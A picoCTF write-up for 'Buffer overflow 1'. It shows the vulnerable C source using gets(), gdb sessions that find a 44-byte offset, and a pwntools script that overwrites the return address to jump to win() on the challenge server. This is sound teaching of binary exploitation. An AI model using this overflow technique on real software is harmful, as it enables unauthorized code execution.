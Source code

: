 # picoCTF: Buffer overflow 1
### Description
Control the return address \
Now we're cooking! You can overflow the buffer and return to the flag function in the  [program](https://artifacts.picoctf.net/c/253/vuln). \
You can view source [here](https://artifacts.picoctf.net/c/253/vuln.c). And connect with it using  `nc saturn.picoctf.net [PORT_REDACTED]`

### Detailed Solution
Let's check out our source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

In the `vuln()` function, we see that the `gets()` function is being used. If you're new to binary exploitation, `gets()` is imfamous for being able to store more input than allocated, overflowing the buffer and writing onto the "stack". Because of this, we are able to write our own addresses onto the stack and change the return address to `win()`.

To start, we first need to figure out our "offset". The offset is just the distance between the beginning of the buffer and the position of the address we need to overwrite. Since this binary is in x32, the address will be stored in the `$eip` register. This can be visualized with the `gdb` utility:

```
gef➤  b main
Breakpoint 1 at 0x80492d7
gef➤  r
Starting program: /home/kali/pico22/buffer-overflow-1/vuln 

Breakpoint 1, 0x080492d7 in main ()
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xf7fa89e8  →  0xffffd1cc  →  0xffffd39c  →  "SHELL=/usr/bin/bash"
$ebx   : 0x0       
$ecx   : 0xffffd120  →  0x00000001
$edx   : 0xffffd154  →  0x00000000
$esp   : 0xffffd100  →  0xffffd120  →  0x00000001
$ebp   : 0xffffd108  →  0x00000000
$esi   : 0x1       
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x80492d7  →  <main+19> sub esp, 0x10
...
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80492d3 <main+15>        mov    ebp, esp
    0x80492d5 <main+17>        push   ebx
    0x80492d6 <main+18>        push   ecx
 →  0x80492d7 <main+19>        sub    esp, 0x10
    0x80492da <main+22>        call   0x8049130 <__x86.get_pc_thunk.bx>
    0x80492df <main+27>        add    ebx, 0x2d21
    0x80492e5 <main+33>        mov    eax, DWORD PTR [ebx-0x4]
    0x80492eb <main+39>        mov    eax, DWORD PTR [eax]
    0x80492ed <main+41>        push   0x0
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x80492d7 in main (), reason: BREAKPOINT
```
Analyzing this breakpoint, if you look at the arrow on the assembly code, you can see that its address is the exact same as the `$eip` (`0x80492d7`). We can overflow this register by passing in a bunch of `A`s into the code. Let's try it:
```
gef➤  r
Starting program: /home/kali/pico22/buffer-overflow-1/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x41      
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x41      
$edx   : 0xffffffff
$esp   : 0xffffd0f0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x1       
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x41414141 ("AAAA"?)
...
─────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x41414141 in ?? (), reason: SIGSEGV
```
Look what happened: all of our registers just got overflowed with our `A`s in ASCII (`0x41` = `A`), including the `$eip`! However, we don't know **how many** `A`s we need to pass in order to reach the `$eip`. To solve this problem, we can use the pwntools `cyclic` command. This creates a recognizable cycling pattern for it to identify:
```
gef➤  shell cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
gef➤  r
Starting program: /home/kali/pico22/buffer-overflow-1/vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x41      
$ebx   : 0x6161616a ("jaaa"?)
$ecx   : 0x41      
$edx   : 0xffffffff
$esp   : 0xffffd0f0  →  "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0x1       
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x6161616c ("laaa"?)
...
─────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x6161616c in ?? (), reason: SIGSEGV
```
We can see that `$eip` is currently overflowed with the pattern `0x6161616c` (`laaa`). let's search for this pattern using `pattern search`:
```
gef➤  pattern search 0x6161616c
[+] Searching for '0x6161616c'
[+] Found at offset 44 (little-endian search) likely
[+] Found at offset 41 (big-endian search)
```
To figure out which offset we need to use, we can use `readelf` to analyze header of the `vuln` executable:
```
kali@kali:~/pico22/buffer-overflow-1$ readelf -h vuln | grep endian
  Data:                              2's complement, little endian

```
Our binary is in little endian, we know that 44 `A`s are needed in order to reach the `$eip`. The only thing we need now before we create our exploit is the address of the function we need to jump to in order to get the flag. This would be `win()`:
```
gef➤  x win
0x80491f6 <win>:	0xfb1e0ff3
```
Win is at `0x80491f6`. We can now make a simple exploit that connects to the server and prints the flag using Python and pwntools:
```py
from pwn import *
payload = b"A"*44 + p32(0x80491f6)        # The p32 function prints this address as little endian (b'\xf6\x91\x04\x08').
host, port = "saturn.picoctf.net", [PORT_REDACTED]

p = remote(host, port)                    # Opens the connection
log.info(p.readS())                       # Decodes/prints "Please enter your string:"
p.sendline(payload)                       # Sends the payload
log.success(p.readallS())                 # Decodes/prints all program outputs
p.close()                                 # Closes the connection
```
Let's try running the script on the server:
```
kali@kali:~/pico22/buffer-overflow-1$ python3 exp2.py
[+] Opening connection to saturn.picoctf.net on port [PORT_REDACTED]: Done
[*] Please enter your string: 
[+] Receiving all data: Done (100B)
[*] Closed connection to saturn.picoctf.net port [PORT_REDACTED]
[+] Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
    picoCTF{addr3ss3s_ar3_3asy_********}
```
You have completed your first `ret2win` buffer overflow on a x32 binary!
